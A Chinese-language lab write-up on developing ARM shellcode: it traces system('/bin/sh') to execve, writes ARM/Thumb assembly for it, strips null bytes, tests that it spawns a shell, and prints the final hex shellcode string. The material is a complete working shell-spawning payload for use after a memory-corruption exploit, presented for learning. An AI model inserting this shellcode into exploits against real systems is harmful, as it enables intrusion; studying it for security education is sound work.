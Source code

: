 # <center>arm下shellcode开发</center>

## 实验概述

### 【目的】
学习在arm进行shellcode
### 【环境】
Linux,arm的qemu
### 【工具】
gdb，as，objdump
### 【原理】
shellcode是一段机器指令，用于在溢出之后改变系统的正常流程，转而执行shellcode从而入侵目标系统。
shellcode基本的编写方式：
- 编写c程序实现功能
- 使用汇编来替代函数调用等
- 汇编编译链接，获取机器码
## 实验步骤

### 【步骤】
先编写一个c语言程序起一个shell。
```c
#include<stdio.h>
int main()
{
    system("/bin/sh");
    return 0;
}
```
用gcc编译
```
$gcc system.c -o system
```
使用strace跟踪程序的函数调用等
```
$strace -v -f ./system
```
可以看到有一段输出为
```c
[pid 16890] execve("/bin/sh", ["sh", "-c", "/bin/sh"], ["INFINALITY_FT_AUTOHINT_HORIZONTA"..., "XDG_SESSION_ID=c2", "INFINALITY_FT_BOLD_EMBOLDEN_X_VA"..., "INFINALITY_FT_AUTOHINT_VERTICAL_"..., "TERM=xterm", "SHELL=/bin/bash", "SSH_CLIENT=10.0.2.2 56290 22", "SSH_TTY=/dev/pts/0", "INFINALITY_FT_CONTRAST=0", "INFINALITY_FT_GRAYSCALE_FILTER_S"..., "USER=pi", "LS_COLORS=rs=0:di=01;34:ln=01;36"..., "INFINALITY_FT_FRINGE_FILTER_STRE"..., "INFINALITY_FT_BRIGHTNESS=0", "INFINALITY_FT_USE_VARIOUS_TWEAKS"..., "INFINALITY_FT_GAMMA_CORRECTION=0"..., "MAIL=/var/mail/pi", "PATH=/usr/local/sbin:/usr/local/"..., "PWD=/home/pi", "INFINALITY_FT_FILTER_PARAMS=11 2"..., "LANG=en_GB.UTF-8", "INFINALITY_FT_USE_KNOWN_SETTINGS"..., "INFINALITY_FT_STEM_SNAPPING_SLID"..., "INFINALITY_FT_WINDOWS_STYLE_SHAR"..., "INFINALITY_FT_CHROMEOS_STYLE_SHA"..., "INFINALITY_FT_AUTOHINT_SNAP_STEM"..., "INFINALITY_FT_STEM_ALIGNMENT_STR"..., "SHLVL=1", "HOME=/home/pi", "INFINALITY_FT_BOLD_EMBOLDEN_Y_VA"..., "INFINALITY_FT_GLOBAL_EMBOLDEN_Y_"..., "LOGNAME=pi", "SSH_CONNECTION=10.0.2.2 56290 10"..., "INFINALITY_FT_STEM_FITTING_STREN"..., "INFINALITY_FT_AUTOHINT_INCREASE_"..., "TEXTDOMAIN=Linux-PAM", "INFINALITY_FT_GLOBAL_EMBOLDEN_X_"..., "XDG_RUNTIME_DIR=/run/user/1000", "OLDPWD=/home/pi/ARM-challenges", "_=/usr/bin/strace"]) = 0
```
可以发现，system()实际调用了execve()。
我们可以通过man命令查看execve()的细节。
```
$man execve
```
```c
EXECVE(2)                  Linux Programmer's Manual                 EXECVE(2)

NAME
       execve - execute program

SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);

....
```

execve()需要的参数是：
- 指向指定二进制文件路径的字符串指针
- argv[]
- envp[]

这里，"/bin/sh"显然是必须的，我们可以调用execve("/bin/sh",0,0)来完成功能

获取execve()的系统调用号
```c
pi@raspberrypi:~ $ grep execve /usr/include/arm-linux-gnueabihf/asm/unistd.h 
#define __NR_execve			(__NR_SYSCALL_BASE+ 11)

```
可以看到execve()的系统调用号为11，在arm汇编中R7寄存器用于传递系统调用号。

在arm中，系统调用的步骤为：
- 将参数送到 R0，R1，。。。
- 将系统调用号送入 R7
- SVC#0或SVC#1
- 用R0传递返回值

现在，我们可以写出arm汇编的代码
```
.section .text
.global _start

_start:
    add     r0,pc,#12
    mov     r1,#0
    mov     r2,#0
    mov     r7,#11
    svc     #0

    .ascii  "/bin/sh\0"
```

查看程序的反汇编

```
$ as system.s -o system.o

$ objdump -d system.o

system.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f000c 	add	r0, pc, #12
   4:	e3a01000 	mov	r1, #0
   8:	e3a02000 	mov	r2, #0
   c:	e3a0700b 	mov	r7, #11
  10:	ef000000 	svc	0x00000000
  14:	6e69622f 	.word	0x6e69622f
  18:	0068732f 	.word	0x0068732f

```
现在的机器码还是无法使用的，我们需要剔除里面"\x00"。

使用异或操作代替#0立即数的使用，启用thumb模式使代码更紧凑。
```
.section .text
.global  _start
_start:
    .code   32
    add     r3,pc,#1
    bx      r3

    .code   16
    add     r0,pc,#8
    eor     r1,r1,r1
    eor     r2,r2,r2
    mov     r7,#11
    svc     #1
    mov     r5,r5

    .ascii "/bin/sh\0"
```

```
$ as execve.s -o execve.o
pi@raspberrypi:~ $ objdump -d execve.o

execve.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f3001 	add	r3, pc, #1
   4:	e12fff13 	bx	r3
   8:	a002      	add	r0, pc, #8	; (adr r0, 14 <_start+0x14>)
   a:	4049      	eors	r1, r1
   c:	4052      	eors	r2, r2
   e:	270b      	movs	r7, #11
  10:	df01      	svc	1
  12:	1c2d      	adds	r5, r5, #0
  14:	6e69622f 	.word	0x6e69622f
  18:	0068732f 	.word	0x0068732f

```
可以看到机器码中仍然有"\x00"，位于"/bin/sh\0"的末尾，这里我们可以用任意字符替换"\x00"，并且用置空的寄存器替换字符串末尾的字符。
```
.section .text
.global  _start
_start:
    .code   32
    add     r3,pc,#1
    bx      r3

    .code   16
    add     r0,pc,#8
    eor     r1,r1,r1
    eor     r2,r2,r2
    strb    r2,[r0,#7]
    mov     r7,#11
    svc     #1

    .ascii "/bin/sh\x"
```

```
$ as execve2.s -o execve2.o && ld -N execve2.o -o execve2
pi@raspberrypi:~ $ objdump -d execve2.o

execve2.o:     file format elf32-littlearm


Disassembly of section .text:

00000000 <_start>:
   0:	e28f3001 	add	r3, pc, #1
   4:	e12fff13 	bx	r3
   8:	a002      	add	r0, pc, #8	; (adr r0, 14 <_start+0x14>)
   a:	4049      	eors	r1, r1
   c:	4052      	eors	r2, r2
   e:	71c2      	strb	r2, [r0, #7]
  10:	270b      	movs	r7, #11
  12:	df01      	svc	1
  14:	6e69622f 	.word	0x6e69622f
  18:	7868732f 	.word	0x7868732f

```
可以看到已经不存在"\x00"了，尝试运行程序，看看能不能弹shell出来
```
pi@raspberrypi:~ $ ./execve2 
$ whoami
pi
$ 
```

然后提取十六进制shellcode
```
pi@raspberrypi:~ $ objcopy -O binary execve2 execve2.bin
pi@raspberrypi:~ $  hexdump -v -e '"\\""x" 1/1 "%02x" ""' execve2.bin
\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78
```
完成
### 【总结】
本次实验主要熟悉了使用arm汇编开发shellcode的过程。
